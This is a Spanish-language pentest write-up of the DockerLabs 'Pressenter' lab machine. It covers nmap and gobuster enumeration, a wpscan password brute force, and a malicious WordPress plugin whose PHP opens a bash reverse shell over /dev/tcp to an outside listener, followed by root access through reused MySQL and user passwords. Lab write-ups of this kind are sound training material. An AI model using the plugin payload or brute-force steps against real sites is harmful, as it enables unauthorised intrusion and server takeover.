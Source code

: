 # Informe de Pentesting – Máquina *Pressenter* (DockerLabs)

* **Dificultad:** Fácil
* **Objetivo:** Obtener acceso root a la máquina mediante la búsqueda de vulnerabilidades en directorios ocultos, revellshell y explotación de vulnerabilidades de MySQL y WordPress
* **Autor del Informe:** Alejandro

---

## 1. Despliegue de la Máquina

Descargamos la máquina desde DockerLabs, descomprimimos y desplegamos:

```bash
unzip pressenter.zip
sudo bash auto_deploy.sh pressenter.tar
```

![](/Pressenter/Imagenes/Logo.jpeg)

---

## 2. Comprobación de Conectividad

Verificamos conectividad con la máquina virtual usando `ping`:

```bash
ping -c1 172.17.0.2
```

![](/Pressenter/Imagenes/Inicio.jpeg)
![](/Pressenter/Imagenes/Ping.jpeg)

---

## 3. Reconocimiento con Nmap

### Escaneo de puertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![](/Pressenter/Imagenes/Puertos.jpeg)

Solo está abierto el puerto **80 (HTTP)**.

### Detección de versiones y scripts

```bash
nmap -sC -sV -p 80 172.17.0.2 -oN target.txt
```

![](/Pressenter/Imagenes/Servicios.jpeg)

---

## 4. Navegación Web

Al acceder al sitio `http://172.17.0.2`, encontramos una página web activa.

![](/Pressenter/Imagenes/Pagina.jpeg)

---

## 5. Análisis de la Aplicación Web

### Formulario de registro

Investigamos un formulario de registro:

![](/Pressenter/Imagenes/Registro.jpeg)

Intentamos inyección SQL manual, pero no tuvo éxito.

### Código fuente

En el código fuente encontramos un dominio personalizado:

```html
http://pressenter.hl/
```

Lo agregamos al archivo `/etc/hosts`:

```bash
sudo nano /etc/hosts
```

Agregamos la línea:

```
172.17.0.2 pressenter.hl
```

![](/Pressenter/Imagenes/Fuente.jpeg)

---

## 6. Enumeración del Sitio `pressenter.hl`

### Nueva página

![](/Pressenter/Imagenes/Pagina2.jpeg)

### Enumeración de directorios con Gobuster

```bash
gobuster dir -u http://pressenter.hl/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![](/Pressenter/Imagenes/Gobuster.jpeg)

---

## 7. Enumeración de WordPress

Utilizamos **wpscan** para identificar vulnerabilidades en el sitio WordPress:

```bash
sudo wpscan --url http://pressenter.hl/ --enumerate u,vp
```

Se identifican usuarios válidos: `pressi` y `hacker`.

![](/Pressenter/Imagenes/Usuarios.jpeg)

### Fuerza bruta de contraseñas

Usamos **rockyou.txt** para intentar descubrir credenciales:

```bash
sudo wpscan --url http://pressenter.hl/ --passwords /usr/share/wordlists/rockyou.txt --usernames pressi,hacker
```

Se encontró la siguiente combinación válida:

* **Usuario:** pressi
* **Contraseña:** dumbass

![](/Pressenter/Imagenes/Credenciales.jpeg)

---

## 8. Acceso a WordPress

Ingresamos con éxito al panel de administración de WordPress.

![](/Pressenter/Imagenes/Sesion.jpeg)
![](/Pressenter/Imagenes/Bienbenido.jpeg)

---

## 9. Ejecución de Shell Reversa (Web Shell)

Creamos un plugin malicioso para obtener una shell inversa:

**Código del archivo `revellshell.php`:**

```php
<?php
/*
Plugin Name: RevellShell
Plugin URI: http://example.com
Description: Este es un plugin de prueba para propósitos educativos en un laboratorio controlado.
Version: 1.0
Author: Alejandro
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.10/443 0>&1'");
?>
```

Comprimimos el archivo en formato `.zip`:

```bash
7z a revellshell.zip revellshell.php
```

Subimos el plugin a través del panel de WordPress y **lo activamos**.

Antes de eso, ponemos el sistema en modo escucha:

```bash
sudo nc -lvnp 443
```

![](/Pressenter/Imagenes/Plugins.jpeg)
![](/Pressenter/Imagenes/IniciarP.jpeg)

---

## 10. Acceso a la Shell

Al activar el plugin, obtenemos una **shell reversa** con permisos del servidor web.

![](/Pressenter/Imagenes/shell.jpeg)

---

## 11. Escalada de Privilegios

Dentro del directorio `/var/www/pressenter`, encontramos el archivo `wp-config.php`, donde están las credenciales de MySQL:

* **Usuario MySQL:** admin
* **Contraseña:** rooteable

Accedemos a MySQL:

```bash
mysql -u admin -prooteable
```

Dentro de la base de datos, encontramos la tabla `wp_users` y descubrimos otro usuario:

* **Usuario:** enter
* **Contraseña:** kernellinuxhack

Probamos acceso SSH sin éxito, pero sí podemos usar `su`:

```bash
su enter
```

La misma contraseña (`kernellinuxhack`) funciona.

Probamos `su` nuevamente para root con la misma clave:

```bash
su
```

¡Acceso root logrado!

![](/Pressenter/Imagenes/Mysqlcre.jpeg)
![](/Pressenter/Imagenes/root.jpeg)

---

## 12. Conclusión

Se logró el objetivo de obtener acceso **root** a la máquina vulnerable **Pressenter**. La intrusión se basó en:

* Enumeración web y de servicios.
* Uso de herramientas como `nmap`, `wpscan`, `gobuster`.
* Ataque de fuerza bruta a WordPress.
* Subida y activación de un plugin malicioso.
* Reutilización de contraseñas para escalada de privilegios.
